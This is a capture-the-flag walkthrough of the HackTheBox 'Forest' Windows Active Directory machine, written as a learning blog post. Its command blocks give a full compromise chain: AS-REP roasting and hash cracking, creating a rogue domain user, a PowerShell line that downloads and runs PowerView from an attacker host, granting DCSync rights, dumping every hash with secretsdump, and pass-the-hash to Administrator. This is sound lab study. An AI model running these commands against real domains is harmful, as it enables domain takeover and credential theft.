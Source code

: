 ```yaml
---
title: Forest @ HackTheBox - Complete Walkthrough
date: 2025-04-14 13:00:00 
last_modified_at: 2025-04-14 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [hackthebox,forest machine,penetration testing,cybersecurity,walkthrough,windows,active directory]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post2/Forest.png
  alt: "Forest Machine - HackTheBox Windows Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Forest machine on HackTheBox. Learn Windows penetration testing techniques, Active Directory enumeration, and privilege escalation in this cybersecurity challenge."
description: "Step-by-step walkthrough of the Forest machine on HackTheBox. Master Windows penetration testing, Active Directory enumeration, and privilege escalation techniques in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, forest machine, windows, penetration testing, cybersecurity, walkthrough, privilege escalation, active directory, enumeration]
canonical_url: https://b2hu.me/posts/Forest-HTB-Walkthrough
---
```


## Table of Contents
- [Enumeration](#enumeration)
- [Initial Access](#initial-access)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---
**Hello** This is a very simple walkthrough for the windows machine Forest (easy). In this walkthrough we'll be see some basic AD enumeration and Exploitation, without further ado let's get into it 
## Enumeration
### Nmap
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
we can see from the scan that this machine is a domain controller for the domain htb.local next we’ll enumerate LDAP and look for anonymous bind 
> dont forget to add the domain to /etc/hosts file.
{: .prompt-tip }
### LDAP Enumeration
we’ll try enumerating ldap using the cli command : ldapsearch 
```shell
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
```
the -x flag specifies using anonymous authentication, while -b denotes the basedn.
seems ldap anonymous bind is enabled, next we’ll do some digging to find extra info such as user and groups.
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U 
```
the -U used is for enumerating users, we could attempt to password spray all the users found but before doing so lets dig a little more in the ObjectClass of ldap, use  `--custom` flag withe `ObjectClass=*` argument to retrieve all :
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "ObjectClass=*"
```
this query returned 312 results among them was an interesting user called `svc-alfresco` a few online search about this revealed that this account requires disabling pre-auth in kerberos, so that means the account is vulnerable to `AS_REProast`. 
This attack levrages the disabling of pre-authentication in kerberos to request a TGT from the KDC,meaning that any attacker knowing only the username can get a segment of the tgt that is encrypted with the victim’s password hash, after that the attacker can perform offline password crack to get the plaintext password.
## AS_REProast → Foothold 
for this we’ll use the script `GetNPUsers.py` from **Impacket** :
```shell
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```
ok now since we've got the encrypted tgt ticket with the svc-alfresco password’s hash, now let's try to crack that, for this i'll use hashcat :
```shell
hashcat -m 18200 tgt /usr/share/wordlist/rockyou.txt
```
18200 represents the code for kerberos ASRep hash.

now that we get the password let's try to login to the account using **WinRM** service (reminder port 5985 was open), for this we’ll use evil-winrm :
```shell
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice" 
```
## PrivEsc
now since we gained a foothold inside the active directory its time to unleash the bloodhound and enumerate, i like to use bloodhound-python as my ingestor if you are comfortable with sharphound feel free to use it :
```shell
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 
```
next crate a neo4j instance and start bloodhound then upload the json files retrieved from the ingestor, after that search for the user svc-alfresco and mark it as owned. A quick review of the account group membership show that the user svc-alfresco is a member of 9 group
![screen_1](/./media/post2/bloodhound_1.png)
one in particular is interessting, the **Account Operators Group**, according to microsoft the account operators group members have the right to create users and add them to groups.

so from there lets see if we can find a high value target we can append a rogue user to and exploit it. go to analysis and select Shortest **Path to High Value targets**.
![screen_2](/./media/post2/bloodhound_2.png)

it looks like the exchange windows group has **writeDacl** rights on the domain and this could be leveragrd to grant the user any rights including **DCSync** right.

For this we’ll create another user called **jason** with a password of **psswd123** and then add him to 2 groups exchange windwos permissions and remote management users.
```powershell
net user jason psswd123 /add /domain
net group "Exchange Windows Permissions" jason /add
net localgroup "Remote Management Users" jason /add
```
The commands above create a new user named john and add him to the required groups. Next,
download the **PowerView** script and import it into the current session.

before loading the script we should use the **bypassAMSI** option in the menu.

Next, we can use the **Add-ObjectACL** with john's credentials, and give him **DCSync** rights.
```powershell
iex(new-object net.webclient).downloadstring('http://$IP:8090/PowerView.ps1')
$SecPassword = Convertto-SecureString 'psswd123' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb\jason', $SecPassword)
Add-objectACL -PrincipalIdentity jason -Credential $Cred -Rights DCSync
````
The **secretsdump.py** script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
```shell
secretsdump.py htb/jason@10.10.10.161
```
now lets try to perform some **pass-the-hash** technique to acces the admin account, for this we’ll use **psexec.py** script from impacket :
```shell
psexec.py htb/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion
This we'll be the end of this walkthrough, as technique for solidifying my knowledge i like to list all the new things i've learnt in this machine. Since i am new to AD envirement i learned a lot of things in this box :
- **LDAP** Anonymous bind Enumeration (ldapsearch,windapsearch).
- **AS_REProast** Attack.
- **Bloodhound** Basic Enumeration.
- **DCSync** Attack
